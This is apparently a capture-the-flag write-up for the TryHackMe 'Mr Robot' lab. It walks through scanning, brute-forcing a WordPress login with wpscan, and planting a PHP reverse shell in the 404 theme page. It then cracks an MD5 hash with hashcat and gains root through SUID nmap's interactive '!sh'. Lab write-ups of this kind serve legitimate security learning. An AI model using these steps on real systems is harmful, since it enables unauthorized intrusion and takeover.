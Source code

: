 # \# TODO : need to finish this

> nmap -A $TARGET

> dirb http://$TARGET

    * robots.txt : first key and fsociety.dic (It will be used later)
    * wp-login.php


user elliot , \# Help from writeup ( Method : hydra to login page as a dummy, check status for correct username )

Wpscan on the wp-login with the
> wpscan --url http://$TARGET/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot

Found Elliot's creds. We can login as wordpress admin.

### Shell access 

Aim: Run PHP reverse-shell script somehow
script used: [pentestermonkey's reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

> Replaced the script with the 404-Page theme php code.

While netcat is listening, we can get access by simply requesting a page that doesn't exist.
To activate the 404-page's script.

> URL : http://$TARGET/nonexistingpagelmfao.html

Now we have shell access.

---

> ls -la:

    * key-2-of-3 which is not readable by us
    * password.raw-md5

> cat password.raw-md5

Let's crack it with rockyou ( Hint )

> hashcat pass.hash /usr/share/wordlists/rockyou.txt

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
.
.
.
```


### PrivEsc

> ./LinEnum.sh

[linenumres.txt](https://github.com/parsakzr/CTF/blob/master/THM/mrrobot/linenumres.txt) :

```
[-] SUID files:
.
.
.
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
.
.
.
```

Now We can execute shell commands with root privilages.

Older versions of nmap didn't have --script flag
But there was an alternative mode;

> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root

#cat /root/key-3-of-3.txt
```

The End!

